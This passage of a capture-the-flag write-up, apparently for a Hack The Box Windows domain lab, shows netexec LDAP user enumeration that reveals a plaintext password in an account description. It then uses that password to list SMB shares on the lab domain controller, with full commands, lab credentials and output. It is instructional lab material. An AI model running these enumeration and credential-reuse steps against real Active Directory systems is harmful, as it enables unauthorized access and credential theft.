 ```shell
``` 

## Found david.orelious passsword from Description
The LDAP enumeration exposed sensitive details in the david.orelious user account description, which included the plaintext password. This demonstrated the impact of improper information handling within account descriptions.
```shell
$ nxc ldap 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
LDAP        10.10.11.35     389    CICADA-DC        [*] Total records returned: 8
LDAP        10.10.11.35     389    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                  
LDAP        10.10.11.35     389    CICADA-DC        Administrator                 2024-08-26 20:08:03 5       Built-in account for administering the computer/domain                                                                                                                                                      
LDAP        10.10.11.35     389    CICADA-DC        Guest                         2024-08-28 17:26:56 1       Built-in account for guest access to the computer/domain                                                                                                                                                    
LDAP        10.10.11.35     389    CICADA-DC        krbtgt                        2024-03-14 11:14:10 1       Key Distribution Center Service Account        
LDAP        10.10.11.35     389    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 4                                                      
LDAP        10.10.11.35     389    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 5                                                      
LDAP        10.10.11.35     389    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0                                                      
LDAP        10.10.11.35     389    CICADA-DC        david.orelious                2024-03-14 12:17:29 2       Just in case I forget my password is aRt$Lp#7t*VQ!3                                                                                                                                                         
LDAP        10.10.11.35     389    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 0


david.orelious Just in case I forget my password is aRt$Lp#7t*VQ!3                                                                                                                                                         
```

## Logged in as david.orelious and found the DEV Shares folder
Gaining access as david.orelious revealed additional SMB shares, including the DEV share, which contained a PowerShell script exposing another set of credentials.
```shell
$ nxc smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares             
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
```